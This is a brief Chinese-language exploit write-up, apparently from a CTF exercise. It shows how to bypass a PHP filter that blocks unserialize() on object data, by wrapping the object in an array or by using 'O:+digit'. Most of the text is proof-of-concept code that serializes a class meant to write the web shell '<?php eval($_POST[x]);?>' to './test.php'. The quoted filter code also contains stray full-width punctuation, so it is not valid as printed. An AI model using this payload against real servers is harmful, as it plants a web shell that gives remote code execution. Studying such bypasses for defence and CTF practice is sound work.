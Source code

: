 有过过滤，不让对象序列化数据类型进行反序列化
```
if(substr($data,0,2) !== 'O:' && !preg_match('/O:\d:\/'，$data））{
    return unserialize($data);
}
```
substr($data,0,2) !== 'O:' 不让对象类型，则使用数组类型。
不让用O:d，则O:+d绕过。
```
<?php
class T{
       public $c="./test.php";
       public $t='<?php eval($_POST[x]);?>';
}

$a = new T();
$b = Array($a);
print(serialize($b));
```